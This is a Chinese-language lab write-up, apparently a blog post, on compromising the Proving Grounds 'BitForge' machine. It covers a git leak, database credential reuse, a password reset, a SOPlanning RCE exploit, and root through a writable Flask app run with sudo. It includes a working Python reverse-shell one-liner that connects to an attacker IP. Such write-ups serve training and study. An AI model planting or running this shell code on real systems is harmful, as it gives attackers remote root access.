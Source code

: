 ```yaml
---
title: Proving Grounds Practice-BitForge
date: 2025-8-09 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## nmap

![image-20250809173624209](./BitForge/image-20250809173624209.png)

## 80端口

将域名解析添加到/etc/hosts

### git泄露

扫目录可以发现git泄露

![image-20250809175344229](./BitForge/image-20250809175344229.png)

![image-20250809180937184](./BitForge/image-20250809180937184.png)

使用一些git泄露的工具，可以将泄露的内容下载到本地，我这里使用[gakki429/Git_Extract: 提取远程 git 泄露或本地 git 的工具](./https://github.com/gakki429/Git_Extract)

![image-20250809175420053](./BitForge/image-20250809175420053.png)

### db-config.php

git泄露了源码内容，其中数据库配置文件中有数据库连接账号密码，上面扫端口时扫到3306端口开放，可以尝试连接到数据库

![image-20250809175625011](./BitForge/image-20250809175625011.png)

跳过ssl验证就可以成功连接到数据库

![image-20250809175656754](./BitForge/image-20250809175656754.png)

在`soplanning`数据库下的`planning_user`表中找到`admin`用户的账号和密码

![image-20250809180849521](./BitForge/image-20250809180849521.png)

使用[Hash Type Identifier - Identify unknown hashes](./https://hashes.com/en/tools/hash_identifier)识别hash类型之后使用hashcat进行爆破，使用rockyou字典没有爆破成功

查看当前用户权限`SHOW GRANTS FOR CURRENT_USER;`

![image-20250809184557041](./BitForge/image-20250809184557041.png)

对soplanning有所有权限，我们不能爆破密码那就尝试修改密码，要修改为和原密码相同的加密方式，最稳定的方法就是去源码中找到初始密码，然后修改为初始密码，源码中加密后的密码肯定是不会出现加密方式不同的问题

![image-20250809200344336](./BitForge/image-20250809200344336.png)

在`SOPlanning github`中找到了默认密码，并且查询后该密码为admin

![image-20250809200414799](./BitForge/image-20250809200414799.png)

![image-20250809200537855](./BitForge/image-20250809200537855.png)





还在`planning_config`表中找到了版本号

![image-20250809182020353](./BitForge/image-20250809182020353.png)

### login.php

在这个源码下还发现一个子域名

![image-20250809183109488](./BitForge/image-20250809183109488.png)

根据数据库名`soplanning`和版本号可以确定，这个页面才是数据库对应的页面，

![image-20250809183155267](./BitForge/image-20250809183155267.png)

上面已经对密码进行修改，这里通过`admin:admin`就可以登录

并且该版本存在经过认证的远程代码执行

![image-20250809183248542](./BitForge/image-20250809183248542.png)

`searchsploit -m 52082`将脚本下载到本地，然后按照使用方法就可以成功getshell

![image-20250809201853315](./BitForge/image-20250809201853315.png)

可以上传一个php的后门，访问以后就可以反弹shell

通过上面脚本得到的shell是对php后门命令执行后的回显，不能进行交互，所以拿到一个可以交互的shell会方便一点

![image-20250809201929747](./BitForge/image-20250809201929747.png)

# 提权

`home`目录下还有`jack`用户和`ubuntu`用户

上传pspy64运行后一段时间就会有个以jack用户运行的进程，利用该密码可以切换到jack用户

![image-20250809204704911](./BitForge/image-20250809204704911.png)

并且可以以sudo权限运行`/usr/bin/flask_password_changer`

![image-20250809204958544](./BitForge/image-20250809204958544.png)

jack用户对该文件没有可写权限，但是可执行

`/usr/bin/flask_password_changer`文件就是运行了一个flask项目，源码是在`/opt/password_change_app`下

![image-20250809205146205](./BitForge/image-20250809205146205.png)

但是`/opt/password_change_app`下的文件jack用户可以修改

![image-20250809205302097](./BitForge/image-20250809205302097.png)

修改app.py，在app.py中添加python语法的反向shell

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.229",3306));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

![image-20250809205938415](./BitForge/image-20250809205938415.png)

然后运行`/usr/bin/flask_password_changer`，就会运行app.py得到root权限的反向hsell

![image-20250809205906926](./BitForge/image-20250809205906926.png)